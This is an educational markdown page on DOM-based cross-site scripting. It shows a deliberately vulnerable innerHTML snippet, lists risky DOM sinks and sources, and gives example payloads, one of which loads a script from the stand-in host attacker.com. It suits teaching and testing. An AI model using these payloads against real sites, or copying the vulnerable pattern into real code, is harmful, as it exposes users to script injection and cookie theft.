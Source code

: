 **DOM-based Cross-Site Scripting (DOM-based XSS)** occurs when the vulnerability exists in the client-side code (JavaScript) rather than the server. In this type of attack, the malicious payload is executed as a result of the victim’s browser interpreting and executing JavaScript code on the page, manipulating the DOM (Document Object Model) in an unsafe way.

In a DOM-based XSS attack, the injected script does not come from the server’s response (like reflected or stored XSS). Instead, the malicious code is embedded in the URL or another part of the client-side input, and JavaScript running on the page dynamically processes this data and performs unsafe DOM manipulation. This type of attack can allow an attacker to execute arbitrary JavaScript within the victim's browser, leading to the compromise of sensitive data.

---

## How Does DOM-based XSS Work?

1. **User Input**: The attacker crafts a malicious URL or modifies an existing URL to include the malicious JavaScript payload (e.g., through query parameters, hashes, or other client-side input sources).
2. **Client-Side Execution**: When the user clicks the malicious link, the client-side JavaScript (running in the victim's browser) processes the input and directly manipulates the DOM without proper sanitization or escaping of the malicious code.
3. **Script Execution**: The injected payload is executed in the victim’s browser, often leading to data theft (like cookies), session hijacking, or other malicious behavior.

#### Example 
Consider a website that has a JavaScript function that uses user input directly from the URL query parameters to display content dynamically.

For example, the site may take the `name` parameter from the URL and display it on the page:

```javascript
// Example of vulnerable client-side code
let name = new URLSearchParams(window.location.search).get('name');
document.getElementById('greeting').innerHTML = 'Hello, ' + name;
```

###### Malicious URL
An attacker could craft a URL like this:
```jaavascript
http://example.com/?name=<script>alert('DOM-based XSS')</script>
```

When the victim clicks the link, the JavaScript code directly places the content from the `name` parameter into the HTML without any sanitization. As a result, the malicious script is executed, and an alert is shown with the message "DOM-based XSS."



---

## Common JavaScript Functions Vulnerable to DOM-based XSS

- `innerHTML`
- `document.write()`
- `eval()`
- `setTimeout()` or `setInterval()`
- `location.hash`
- `document.referrer`

---

## Example Payloads for DOM-based XSS

Here are some common payloads that could be used in DOM-based XSS attacks:

1. **Basic Script Injection**:
```html
<script>alert('DOM-based XSS')</script>
```

1. **Injection via URL parameters**:
```html
http://example.com/?param=<script>alert('XSS')</script>
```

2. **DOM Manipulation via `innerHTML`**:
```html
<img src="invalid" onerror="alert('XSS')">
```

3. **Cross-Domain Script Inclusion**:
```html
<script>
  var script = document.createElement('script');
  script.src = 'http://attacker.com/malicious.js';
  document.body.appendChild(script);
</script>
```